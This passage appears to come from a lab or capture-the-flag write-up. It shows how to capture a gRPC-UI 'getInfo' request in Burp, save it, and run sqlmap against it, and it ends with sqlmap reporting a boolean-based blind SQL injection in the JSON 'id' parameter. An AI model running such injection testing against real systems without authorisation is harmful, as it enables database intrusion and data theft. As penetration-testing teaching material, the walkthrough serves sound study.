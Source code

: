 ![burp](./.images/burp.png)

<em>Make sure that you get a successful response in Burp. If you get an error in the response then login again and use the new token and id value to perform the `getInfo` action and capture it in Burp. If you continue with the errored response, `sqlmap` might not be able to detect injection properly.</em>

Now that we have a successful response in Burp, we can save its request (use `copy to file` option) and then use it with `sqlmap` to check for SQLi.

```
$ sqlmap -r req --batch
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:57:17 /2023-05-27/

[10:57:17] [INFO] parsing HTTP request from 'req'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '_grpcui_csrf_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[10:57:17] [INFO] testing connection to the target URL
...
...
...
qlmap identified the following injection point(s) with a total of 193 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```